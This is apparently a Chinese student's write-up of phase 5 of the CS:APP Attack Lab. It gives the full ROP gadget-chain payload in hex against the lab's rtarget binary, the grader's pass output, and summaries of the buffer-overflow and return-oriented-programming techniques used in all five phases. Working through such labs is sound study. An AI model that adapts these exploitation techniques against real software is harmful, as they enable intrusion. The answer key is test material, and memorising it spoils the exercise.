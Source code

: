 因为在执行第一条`rax = rsp`时，已经执行了一次`ret`指令，因此此时`%rsp`在`buf + 48`处，也就是返回地址已经被弹出了一个。所以在`buf + 48`后面是 9 个地址 + 数据，因此偏移量应该是 `9 * 8 = 72`，转化为 16 进制就是`0x48`。最终的栈结构如下：

![phase5-last.png](phase5-last.png)

因此，phase 5 的输入为：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
69 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
00
```

最终结果如下：

```bash
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1A 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 69 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```

通过！

## 总结

1. phase 1 很简单，让 buffer overflow 溢出，然后覆盖返回地址即可
2. phase 2 需要让`%rdi`的值等于`cookie`的值，我们需要插入一部分自己的攻击代码，比 Phase 1 难度稍微高点
3. phase 3 中我们需要插入自己的攻击字符串，然后让`ret`指令返回到攻击代码开始处，通过指令将`%rdi`的值设置为攻击字符串的地址，并且把`touch3`的地址压到栈上。这里的难点在于`hexmatch`和`strncmp`中出现了`push`的压栈操作，并且使用了一段随机的 buffer，如果把攻击字符串放在攻击代码之前，会导致攻击字符串被破坏。因此这里的核心是把攻击字符串放在 caller 函数(`test`)的栈空间内（在返回地址下面），然后让`%rdi`指向这里
4. phase 4 & phase 5 的难点在于将过程理清楚，并且在`rtarget`中找到对应的`gadget`，将栈上作为`gadget`地址和数值的组合，巧妙地运用`popq`和`ret`和其他指令组合出我们想要的操作。
5. phase 5 的核心在于首先确定`rax = rdi + rsi`，并且这两个寄存器一个存储`%rsp`，一个存储偏移量。要将数据输入到这两个寄存器，随后不断的通过反推，找到以他们为目标地址的指令通用结构，在`rtarget`中查找到相关指令，然后确定其源寄存器。再来反推什么指令能将数据输送到源寄存器。打通一条通路，然后确定每个 gadget 的地址，最后串联起来就是我们想要的 gadget 列表！这个过程收获很大！

虽然做这 5 个 Phase 的过程不容易，但是总体来说受益匪浅！

## 参考资料

- [CSAPP 实验之 attack lab](https://zhuanlan.zhihu.com/p/60724948)
- [CSAPP | Lab3-Attack Lab 深入解析](https://zhuanlan.zhihu.com/p/476396465)
- [csapp-attacklab 详解](https://zhuanlan.zhihu.com/p/410418053)
